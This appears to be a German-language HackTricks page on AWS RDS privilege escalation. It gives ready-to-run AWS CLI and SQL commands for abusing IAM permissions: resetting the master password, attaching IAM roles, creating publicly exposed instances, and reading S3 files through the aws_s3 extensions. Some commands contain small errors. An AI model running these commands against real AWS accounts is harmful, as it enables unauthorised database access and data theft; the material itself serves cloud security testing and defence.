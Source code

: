 # AWS - RDS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## RDS - Relational Database Service

Für weitere Informationen über RDS siehe:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:ModifyDBInstance`

Mit dieser Berechtigung kann ein Angreifer **das Passwort des Masterbenutzers ändern** und sich in die Datenbank einloggen:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
> [!WARNING]
> Sie müssen in der Lage sein, **auf die Datenbank zuzugreifen** (sie sind normalerweise nur von internen Netzwerken aus zugänglich).

**Potenzielle Auswirkungen:** Sensible Informationen in den Datenbanken finden.

### rds-db:connect

Laut den [**Docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) könnte ein Benutzer mit dieser Berechtigung eine Verbindung zur DB-Instanz herstellen.

### Missbrauch von RDS-Rollen-IAM-Berechtigungen

#### Postgresql (Aurora)

> [!TIP]
> Wenn Sie **`SELECT datname FROM pg_database;`** ausführen und eine Datenbank namens **`rdsadmin`** finden, wissen Sie, dass Sie sich in einer **AWS Postgresql-Datenbank** befinden.

Zuerst können Sie überprüfen, ob diese Datenbank verwendet wurde, um auf einen anderen AWS-Dienst zuzugreifen. Sie könnten dies überprüfen, indem Sie sich die installierten Erweiterungen ansehen:
```sql
SELECT * FROM pg_extension;
```
Wenn Sie etwas wie **`aws_s3`** finden, können Sie davon ausgehen, dass diese Datenbank **irgendeine Art von Zugriff auf S3** hat (es gibt andere Erweiterungen wie **`aws_ml`** und **`aws_lambda`**).

Wenn Sie außerdem die Berechtigung haben, **`aws rds describe-db-clusters`** auszuführen, können Sie dort sehen, ob der **Cluster eine IAM-Rolle zugewiesen hat** im Feld **`AssociatedRoles`**. Falls vorhanden, können Sie davon ausgehen, dass die Datenbank **vorbereitet wurde, um auf andere AWS-Dienste zuzugreifen**. Basierend auf dem **Namen der Rolle** (oder wenn Sie die **Berechtigungen** der Rolle erhalten können) könnten Sie **erraten**, auf welchen zusätzlichen Zugriff die Datenbank hat.

Um nun **eine Datei in einem Bucket zu lesen**, müssen Sie den vollständigen Pfad kennen. Sie können es mit folgendem Befehl lesen:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Wenn Sie **rohe AWS-Anmeldeinformationen** hätten, könnten Sie diese auch verwenden, um auf S3-Daten zuzugreifen mit:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
> [!NOTE]
> Postgresql **muss keine Parametergruppenvariable ändern**, um auf S3 zugreifen zu können.

#### Mysql (Aurora)

> [!TIP]
> Innerhalb eines mysql, wenn Sie die Abfrage **`SELECT User, Host FROM mysql.user;`** ausführen und es einen Benutzer namens **`rdsadmin`** gibt, können Sie davon ausgehen, dass Sie sich in einer **AWS RDS mysql db** befinden.

Führen Sie im mysql **`show variables;`** aus und wenn die Variablen wie **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** Werte haben, können Sie davon ausgehen, dass die Datenbank vorbereitet ist, um auf S3-Daten zuzugreifen.

Wenn Sie außerdem die Berechtigung haben, **`aws rds describe-db-clusters`** auszuführen, können Sie überprüfen, ob der Cluster eine **assoziierte Rolle** hat, was normalerweise den Zugriff auf AWS-Dienste bedeutet.

Um nun **eine Datei innerhalb eines Buckets zu lesen**, müssen Sie den vollständigen Pfad kennen. Sie können sie mit lesen:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Ein Angreifer mit den Berechtigungen `rds:AddRoleToDBCluster` und `iam:PassRole` kann **eine bestimmte Rolle zu einer bestehenden RDS-Instanz hinzufügen**. Dies könnte dem Angreifer ermöglichen, **auf sensible Daten zuzugreifen** oder die Daten innerhalb der Instanz zu ändern.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potenzielle Auswirkungen**: Zugriff auf sensible Daten oder unbefugte Änderungen an den Daten in der RDS-Instanz.\
Beachten Sie, dass einige DBs zusätzliche Konfigurationen erfordern, wie Mysql, das die Angabe der Rollen-ARN in den Parametergruppen benötigt.

### `rds:CreateDBInstance`

Nur mit dieser Berechtigung könnte ein Angreifer eine **neue Instanz innerhalb eines bereits vorhandenen Clusters** erstellen, der eine **IAM-Rolle** zugewiesen ist. Er wird das Master-Benutzerpasswort nicht ändern können, aber er könnte in der Lage sein, die neue Datenbankinstanz ins Internet zu exponieren:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

> [!NOTE]
> TODO: Test

Ein Angreifer mit den Berechtigungen `rds:CreateDBInstance` und `iam:PassRole` kann **eine neue RDS-Instanz mit einer angegebenen Rolle erstellen**. Der Angreifer kann dann potenziell **auf sensible Daten zugreifen** oder die Daten innerhalb der Instanz ändern.

> [!WARNING]
> Einige Anforderungen an die Rolle/Instanzprofil, die angehängt werden sollen (von [**hier**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

> - Das Profil muss in Ihrem Konto existieren.
> - Das Profil muss eine IAM-Rolle haben, die Amazon EC2 die Berechtigung hat, zu übernehmen.
> - Der Name des Instanzprofils und der zugehörige IAM-Rollenname müssen mit dem Präfix `AWSRDSCustom` beginnen.
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**Potenzielle Auswirkungen**: Zugriff auf sensible Daten oder unbefugte Änderungen an den Daten in der RDS-Instanz.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Ein Angreifer mit den Berechtigungen `rds:AddRoleToDBInstance` und `iam:PassRole` kann **eine bestimmte Rolle zu einer bestehenden RDS-Instanz hinzufügen**. Dies könnte dem Angreifer ermöglichen, **auf sensible Daten zuzugreifen** oder die Daten innerhalb der Instanz zu ändern.

> [!WARNING]
> Die DB-Instanz muss außerhalb eines Clusters sein, um dies zu ermöglichen.
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
**Potenzielle Auswirkungen**: Zugriff auf sensible Daten oder unbefugte Änderungen an den Daten in der RDS-Instanz.

{{#include ../../../banners/hacktricks-training.md}}
